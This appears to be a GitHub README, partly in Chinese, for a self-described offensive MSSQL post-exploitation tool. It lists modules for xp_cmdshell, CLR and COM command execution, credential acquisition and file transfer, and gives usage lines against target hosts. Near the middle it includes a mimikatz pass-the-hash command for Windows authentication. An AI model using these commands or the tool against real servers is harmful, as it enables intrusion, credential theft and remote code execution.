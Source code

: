 ## MSSQL Shell ##
自用mssql shell利用工具
![](img/1.png)
```text
0.exit
1.xp_cmdshell (Easy to be killed by antivirus)
2.startup_components
3.Custom execution sql
4.Credentials acquisition
5.write file
6.read file
7.com_run_execute (Easy to be killed by antivirus)
8.enumerate database
9.sql tools clr install
10.sql tools clr uninstall
11.clr shell
```
注:这里的CLR直接引用https://github.com/Ridter/MSSQL_CLR/ 现成的DLL

install module
```text
pip install impacket
pip install pymssql
```

使用方法
```text
Example:
python .\mssql_shell.py -i <host> -u sa -a sa -d testx -p 996
python .\mssql_shell.py -i <host> -u sa -a sa -d testx
python .\mssql_shell.py -i <host> -u sa -a sa

#windows验证
python .\mssql_shell.py -i <host> --windows
python .\mssql_shell.py -i <host> -d testx -p 996 --windows
python .\mssql_shell.py -i <host> -d testx --windows

Usage: mssql_shell.py [options]

Options:
  -h, --help   show this help message and exit
  -i HOST      target mssql host
  -p PORT      target mssql port(default:1433)
  -d DBNAME    DBName (default:master)
  -u USERNAME  Auth username
  -a PASSWORD  Auath password
  --windows    windows certificate Auth
```

windows验证注意事项:
```text
cmd
runas /noprofile /netonly /user:yayi\Administrator cmd

mimikatz
privilege::debug
sekurlsa::pth /user:<username> /domain:WORKGROUP /ntlm:<ntlm> "/run:cmd.exe /restrictedadmin"
```
![](img/10.png)

本地验证CLR Shell需要输入密码/ntlm (验证成功后重新进入不需要重新输入)

![](img/11.png)

***xp_cmdshell Fake Shell***

![](img/2.png)

***startup_components***

![](img/3.png)

***Custom execution sql***

![](img/4.png)

***Credentials acquisition***

![](img/5.png)

***write file(upload)***  
需要开启Ole Automation Procedures组件
![](img/6.png)

***read file(download)***  
需要开启Ole Automation Procedures组件

![](img/7.png)

***COM Run Execute***

![](img/8.png)

***CLR Shell***

![](img/9.png)
